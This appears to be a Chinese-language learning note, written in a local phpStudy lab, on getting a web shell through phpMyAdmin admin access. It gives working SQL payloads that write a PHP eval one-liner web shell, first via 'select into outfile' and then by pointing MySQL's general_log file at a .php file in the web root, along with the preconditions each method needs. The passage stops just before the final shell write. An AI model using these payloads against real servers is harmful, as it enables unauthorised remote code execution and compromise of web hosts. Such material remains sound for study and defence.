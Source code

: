 ### 漏洞利用

#### PHPMyadmin后台getshell技巧

##### 直接写入

那么先试试之前学过的select into outfile|dumpfile 直接写shell

利用条件

- secure_file_priv没有具体值（不是NULL）
  (NULL:限制mysql导入和导出；无具体值：不做限制；有值：只能在该值指定目录进行导入导出)
- 知道路径，具有写权限，可使用单引号
  （ps：`magic_quotes_gpc`开启时，会对'单引号进行转义，使其变成“\”反斜杠）

okk，那么就开始吧，利用`@@datadir`、`@@secure_file_priv`来看看这些值如何

![](https://i.loli.net/2021/03/18/S5QiwoLa4WX6VG3.png)
可惜的是secure_file_priv=NULL，那么此法就不可行了，正好学习其他方法

```sql
插一条能正常执行的payload--
select '<?php @eval($_POST[1]);?>' into outfile 'D:\\environment\\phpstudy_pro\\WWW\\1.php'
```



##### 利用日志文件getshell

前提：

- 账号拥有`可读可写`权限
- `Mysql`版本大于`5.0`，在5.0版本以上mysql会创建日志文件，通过改变全局变量控制日志文件的生成从而getshell

###### 开启全局日志getshell

- 步骤：

  - 查看general_log和general_log_file：`show variables like '%general%';`
  - 开启general log模式：`set global general_log = on;`
  - 设置日志目录为shell写入路径：`set global general_log_file = 'C:/phpStudy/WWW/hhh.php';`
  - 写入shell：`select '<?php eval($_POST[hhh]);?>'`




<u>实操一波</u>：

ps：同样的这样查也可以(如下general_log就没打开)

![](https://i.loli.net/2021/03/18/wTXqm26oaebGBhL.png)
那么就按步骤一步步来吧：

```mysql
set global general_log = on;
set global general_log_file = 'C:/phpStudy/WWW/hhh.php';
select @@general_log,@@general_log_file,@@datadir;
```

okk，全局日志以及路径都设置好了，接下来就是写shell了
